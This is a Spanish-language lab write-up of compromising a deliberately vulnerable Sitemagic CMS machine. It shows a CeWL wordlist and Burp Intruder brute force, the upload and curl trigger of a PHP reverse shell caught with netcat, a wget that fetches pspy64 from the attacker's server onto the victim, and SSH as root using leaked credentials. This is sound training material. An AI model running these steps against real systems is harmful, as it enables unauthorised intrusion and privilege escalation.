# CEWL, Burp Suite y PSPY64 — Write-up de explotación

Write-up de un ejercicio de pentesting sobre una máquina vulnerable (CMS **Sitemagic**),
en el que se combina fuerza bruta guiada por diccionario, subida de una web shell y
escalada de privilegios mediante monitorización de procesos.

> ⚠️ **Disclaimer**: Este contenido documenta un ejercicio realizado en un entorno de
> laboratorio controlado y aislado (red interna `10.0.2.0/24`, máquina vulnerable por
> diseño). Las técnicas aquí descritas solo deben aplicarse en sistemas propios o con
> autorización explícita. El autor y este repositorio no se hacen responsables del uso
> indebido de la información aquí contenida.

## Índice

1. [Resumen](#resumen)
2. [Herramientas utilizadas](#herramientas-utilizadas)
3. [Metodología](#metodología)
   - [1. Reconocimiento](#1-reconocimiento)
   - [2. Enumeración web](#2-enumeración-web)
   - [3. Generación de diccionario con CeWL](#3-generación-de-diccionario-con-cewl)
   - [4. Fuerza bruta con Burp Suite Intruder](#4-fuerza-bruta-con-burp-suite-intruder)
   - [5. Acceso al panel y subida de web shell](#5-acceso-al-panel-y-subida-de-web-shell)
   - [6. Obtención de reverse shell](#6-obtención-de-reverse-shell)
   - [7. Enumeración post-explotación](#7-enumeración-post-explotación)
   - [8. Escalada de privilegios con pspy64](#8-escalada-de-privilegios-con-pspy64)
   - [9. Root](#9-root)
4. [Estructura del repositorio](#estructura-del-repositorio)
5. [Cómo reproducirlo](#cómo-reproducirlo)

## Resumen

| | |
|---|---|
| **Objetivo** | `10.0.2.16` |
| **CMS** | Sitemagic CMS |
| **Servicios** | `22/tcp` SSH, `80/tcp` y `8080/tcp` HTTP (nginx 1.18.0) |
| **Vector inicial** | Fuerza bruta de credenciales de admin con diccionario propio (CeWL + Burp Intruder) |
| **Vector de ejecución** | Subida de `php-reverse-shell.php` a través del gestor de archivos del CMS |
| **Vector de escalada** | Credenciales root filtradas en un proceso capturado con `pspy64` |
| **Usuario final** | `root` |

## Herramientas utilizadas

- [`arp-scan`](https://github.com/royhills/arp-scan) — descubrimiento de hosts en la red local
- [`nmap`](https://nmap.org/) — escaneo de puertos y detección de servicios
- [`cewl`](https://github.com/digininja/CeWL) — generación de diccionarios a partir del contenido de una web
- [`Burp Suite`](https://portswigger.net/burp) (Community) — interceptación de peticiones y ataque Intruder
- `php-reverse-shell.php` (pentestmonkey, incluido por defecto en Kali en `/usr/share/webshells/php/`)
- `netcat` — listener para la reverse shell
- [`pspy64`](https://github.com/DominicBreuker/pspy) — monitorización de procesos sin privilegios
- `ssh` — acceso final con las credenciales obtenidas

## Metodología

### 1. Reconocimiento

Se identifica el host objetivo en la red local y se escanean sus puertos y servicios.

```bash
sudo arp-scan --interface=eth1 --localnet
sudo nmap -sV -Pn -sS -vv 10.0.2.16
```

Resultado: puertos `22` (SSH), `80` y `8080` (HTTP / nginx 1.18.0) abiertos.

| | |
|---|---|
|  |  |

### 2. Enumeración web

Se accede al servicio en el puerto `8080`, correspondiente a una instancia de **Sitemagic CMS**
con panel de login. Las credenciales por defecto (`admin`/`admin`) no funcionan.

| | | |
|---|---|---|
|  |  |  |

Con Burp Suite en modo proxy se observa el tráfico de la petición de login en **HTTP history**:



### 3. Generación de diccionario con CeWL

En lugar de usar un diccionario genérico, se genera uno específico a partir de las palabras
presentes en la propia web objetivo:

```bash
cewl http://10.0.2.16:8080 --with-numbers -m 3 -x 8 -d 2 -w cewl.txt
```

| Flag | Significado |
|---|---|
| `--with-numbers` | incluye números encontrados en el sitio |
| `-m` | longitud mínima de palabra |
| `-x` | longitud máxima de palabra |
| `-d` | profundidad de rastreo |
| `-w` | fichero de salida |



### 4. Fuerza bruta con Burp Suite Intruder

Se envía la petición de login a **Intruder**, se fija `admin` como usuario y se marca el
campo de contraseña como posición de payload en modo **Sniper**, cargando el diccionario
generado con CeWL.



Se añade la cadena `Wrong` (presente en la respuesta de error) como regla de **Grep - Match**
para poder filtrar rápidamente los intentos fallidos frente al que tenga éxito.



Al lanzar el ataque, la fila correspondiente a la contraseña **`Letraset`** responde con un
código `302` (redirección) y una longitud de respuesta distinta al resto — indicio claro de
autenticación correcta.



### 5. Acceso al panel y subida de web shell

Con las credenciales `admin` / `Letraset` se accede al panel de administración del CMS.



Dentro del gestor de archivos se localiza un script `php-reverse-shell.php` ya presente en el
servidor. Se descarga junto a `info.php` para su análisis:

| | |
|---|---|
|  |  |

Se edita el script para apuntar a la IP y puerto de escucha del atacante:



### 6. Obtención de reverse shell

Se pone un listener de `netcat` a la escucha en el puerto configurado en el script:

```bash
sudo nc -lnv 4444
```



Se sube el script modificado a través del gestor de archivos del CMS:



Y se dispara su ejecución con una petición HTTP directa al recurso subido:

```bash
curl 10.0.2.17:8080/files/images/php-reverse-shell.php
```



En la terminal donde queda `netcat` a la escucha se recibe la conexión, confirmando acceso
como el usuario de servicio web (`www-data`):



### 7. Enumeración post-explotación

Se listan los directorios del sistema, identificando `/tmp` con permisos `rwx` para todos
los usuarios — un buen candidato para alojar herramientas de enumeración:



Desde la máquina atacante se levanta un servidor HTTP simple para servir `pspy64`:

```bash
python3 -m http.server 8888
```



Desde la víctima se descarga la herramienta y se le dan permisos de ejecución:

```bash
wget http://10.0.2.14:8888/pspy64 -O pspy64
chmod +x pspy64
```



La petición queda registrada en el servidor HTTP del atacante:



### 8. Escalada de privilegios con pspy64

Se ejecuta `pspy64` para monitorizar procesos del sistema sin necesidad de privilegios:

```bash
./pspy64
```



Entre los procesos capturados aparece uno lanzado como `root` (PID `185673`) que expone
unas credenciales en texto plano dentro de su línea de comandos:



### 9. Root

Con las credenciales filtradas se establece una conexión SSH directa:

```bash
ssh <usuario>@10.0.2.16
```



Una vez dentro, se escala a `root` y se captura la flag final de la máquina:



## Estructura del repositorio

```
.
├── README.md
├── scripts/
│   ├── 01_recon.sh                  # arp-scan + nmap
│   ├── 02_generate_wordlist.sh      # generación de diccionario con cewl
│   ├── 03_prepare_reverse_shell.sh  # parchea IP/puerto en el webshell de Kali
│   └── 04_privesc_pspy.sh           # sirve pspy64 vía HTTP para la víctima
└── screenshots/
    └── 01-arp-scan.png … 26-root-flag-cewlkid.png
```

## Cómo reproducirlo

```bash
# 1. Reconocimiento
./scripts/01_recon.sh eth1

# 2. Diccionario personalizado
./scripts/02_generate_wordlist.sh http://<target>:8080 cewl.txt
# -> cargar cewl.txt en Burp Suite Intruder (Payloads > Load...)

# 3. Preparar la reverse shell con tu IP/puerto de escucha
./scripts/03_prepare_reverse_shell.sh <tu_ip> 4444 shell.php
# -> subirla manualmente vía el gestor de archivos del CMS
sudo nc -lnv 4444

# 4. Servir pspy64 para la víctima y escalar privilegios
./scripts/04_privesc_pspy.sh 8888
# En la víctima: wget http://<tu_ip>:8888/pspy64 -O pspy64 && chmod +x pspy64 && ./pspy64
```

## Licencia

Uso educativo y entorno controlado
